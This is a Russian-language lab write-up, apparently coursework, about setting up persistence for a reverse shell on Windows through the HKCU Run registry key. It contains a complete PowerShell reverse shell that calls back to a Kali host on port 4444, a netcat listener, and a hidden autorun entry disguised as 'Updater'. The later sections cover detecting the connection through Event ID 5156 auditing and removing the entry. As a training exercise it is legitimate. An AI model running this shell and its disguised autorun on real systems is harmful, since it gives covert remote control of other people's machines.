


## Задание 1. Закрепление reverse shell через `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

## Лабораторная среда

| Система    | IP-адрес         |
| ---------- | ---------------- |
| Kali Linux | `192.168.100.10` |
| Windows 11 | `192.168.100.20` |

Используемый порт: `4444/TCP`

---

## 1. Создание тестового пользователя

Для выполнения последующих заданий был создан пользователь `student` с паролем `qwerty123`.

```cmd
net user student qwerty123 /add
net user student
```


---

## 2. Проверка работы ключа `Run`

Перед настройкой reverse shell была проверена работа механизма автозапуска через реестр.

### Создание тестовой записи

```cmd
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run ^
 /v TestRun ^
 /t REG_SZ ^
 /d "cmd.exe /c echo Autorun worked > C:\Temp\autorun.txt" ^
 /f
```

### Проверка записи

```cmd
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```


### Проверка результата

После повторного входа в систему был создан файл `C:\Temp\autorun.txt`.

```cmd
type C:\Temp\autorun.txt
```

Содержимое файла:

```text
Autorun worked
```



---

## 3. Создание PowerShell reverse shell

На Windows был создан файл:

```text
C:\Temp\reverse.ps1
```

Содержимое файла:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.100.10",4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | ForEach-Object {0}

while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
    $result = (cmd.exe /c $data 2>&1 | Out-String)
    $prompt = "PS " + (Get-Location).Path + "> "
    $out = [System.Text.Encoding]::ASCII.GetBytes($result + $prompt)
    $stream.Write($out, 0, $out.Length)
    $stream.Flush()
}

$client.Close()
```

> Для удобства PowerShell-код был вынесен в отдельный `.ps1` файл, а в реестре создавалась только команда его запуска.

---

## 4. Настройка сети между виртуальными машинами

Для связи между Windows и Kali использовалась сеть `Internal Network` в VirtualBox.

| Машина     | Интерфейс    | IP-адрес            |
| ---------- | ------------ | ------------------- |
| Kali Linux | `eth1`       | `192.168.100.10/24` |
| Windows 11 | `Ethernet 2` | `192.168.100.20/24` |

---

## 5. Ручная проверка reverse shell

### На Kali Linux

```bash
nc -lvnp 4444
```

### На Windows

```powershell
powershell -ExecutionPolicy Bypass -File C:\Temp\reverse.ps1
```

После запуска скрипта на Kali было получено обратное подключение.


---

## 6. Выполнение команд через reverse shell

Через полученную оболочку были выполнены команды:

```cmd
whoami
ipconfig
```

Результат:

* `whoami` → `desktop-qff94v2\user`
* `ipconfig` → отображена конфигурация сетевых интерфейсов Windows.



---

## 7. Настройка закрепления через реестр

Для автоматического запуска reverse shell при входе пользователя в систему была создана запись:

```cmd
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run ^
 /v Updater ^
 /t REG_SZ ^
 /d "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Temp\reverse.ps1" ^
 /f
```

### Проверка

```cmd
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

При выполнении команды в списке значений появилась запись `Updater`.

---

## 8. Проверка persistence после перезагрузки

### На Kali Linux

```bash
nc -lvnp 4444
```

### На Windows

```cmd
shutdown /r /t 0
```

После перезагрузки и входа пользователя reverse shell автоматически установил соединение с Kali Linux.

---

## 9. Включение аудита сетевых подключений

Для регистрации сетевых подключений был включён аудит:

```cmd
auditpol /set /subcategory:"Filtering Platform Connection" /success:enable /failure:enable
```

---

## 10. Поиск события `Event ID 5156`

Открыт просмотр событий:

```text
Event Viewer → Windows Logs → Security
```

В журнале было найдено событие:

* **Event ID:** `5156`
* **Описание:** `The Windows Filtering Platform has permitted a connection.`

В событии были указаны:

* `Application Name`: `powershell.exe`
* `Destination Address`: `192.168.100.10`
* `Destination Port`: `4444`


---

## 11. Удаление закрепления

Для удаления persistence была выполнена команда:

```cmd
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /f
```

### Проверка

```cmd
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

Запись `Updater` отсутствует.

---

## 12. Финальная проверка

На Kali Linux снова был запущен listener:

```bash
nc -lvnp 4444
```

После повторной перезагрузки Windows новое соединение не появилось, что подтверждает успешное удаление закрепления.

---

## Вывод

В ходе выполнения задания было:

* Создан тестовый пользователь `student`.
* Проверена работа ключа автозапуска `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`.
* Создан и протестирован PowerShell reverse shell.
* Настроено закрепление через реестр.
* Получено автоматическое обратное подключение после перезагрузки.
* Выполнены команды `whoami` и `ipconfig`.
* Найдено событие безопасности Windows `Event ID 5156`.
* Удалена запись из реестра.
* Подтверждено отсутствие подключения после удаления persistence.

Таким образом, задание выполнено успешно.

---

# Использованные скриншоты

```text
screenshots/
├── 1WindowsCreateUser.png
├── 2.HKCU.png
├── 3.png
├── connectKali.png
├── KaliIPConfig.png
└── event5156.png
```
